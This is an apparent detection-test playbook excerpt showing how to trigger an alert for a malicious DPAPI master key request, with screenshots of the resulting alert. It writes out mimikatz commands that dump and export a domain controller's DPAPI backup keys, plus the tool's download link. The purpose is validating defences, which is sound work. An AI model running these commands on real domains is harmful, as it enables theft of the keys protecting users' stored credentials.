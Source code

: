 From a command line on workstation run with an admin account:  

```cmd
mimikatz # privilege::debug
mimikatz # lsadump::backupkeys /system:msdemo-DC01 /export 
```

Tools available from: <https://github.com/gentilkiwi/mimikatz/releases>  

You should see the activities and the alert in the user timeline:  

![Malicious request of Data Protection API (DPAPI) master key alert.](media/playbooks/malicious-request.png)  

Detail in the alert:  

![Malicious request of Data Protection API (DPAPI) master key alert details](media/playbooks/malicious-request-details.png)  
